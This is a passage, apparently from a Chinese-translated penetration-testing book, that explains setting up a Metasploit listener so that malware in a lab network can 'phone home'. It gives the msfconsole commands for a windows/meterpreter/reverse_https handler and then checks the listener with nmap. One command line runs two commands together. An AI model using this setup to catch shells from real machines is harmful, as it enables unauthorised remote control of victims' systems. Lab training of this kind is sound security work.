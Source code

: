 2.  确定您的侦听器将要侦听的本地主机地址，以便您的恶意软件可以打电话回家。在我们的测试网络中，Kali 服务器运行在物理主机上运行的虚拟机上。恶意软件传入时，主机的 IP 或来自虚拟机的桥接伪以太网卡必须是目标。如果您在 internet 上的 VMS 机器上运行您的 Kali，这将稍微不那么困难。
    1.  以下是测试网络的配置。有两台可以访问 internet 的机器和两台只能从内部网络访问的服务器。Kali 186 是攻击者的笔记本电脑，Windows 10 工作站是内部网络的跳转盒。
3.  一旦启动 Metasploit，您就需要启动侦听器，这样您将要创建的恶意软件就可以在打电话回家时接听来电。
    1.  在 MSF 命令提示符中键入以下命令：

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.0.0.2
set LPORT 4343 exploit  
```

4.  侦听器是一个开放的运行进程，因此游标不会返回到就绪状态。为了显示侦听器处于活动状态，我们可以使用`nmap`对其运行端口扫描：

![](img/21521e32-60f1-4665-83d5-deccdcb5c9ac.png)

另一方面，监听器对`nmap`扫描做出响应，并从扫描中读出数据：

![](img/f0ff3f00-86bb-4235-a0d8-f2aaf3f0a7da.png)
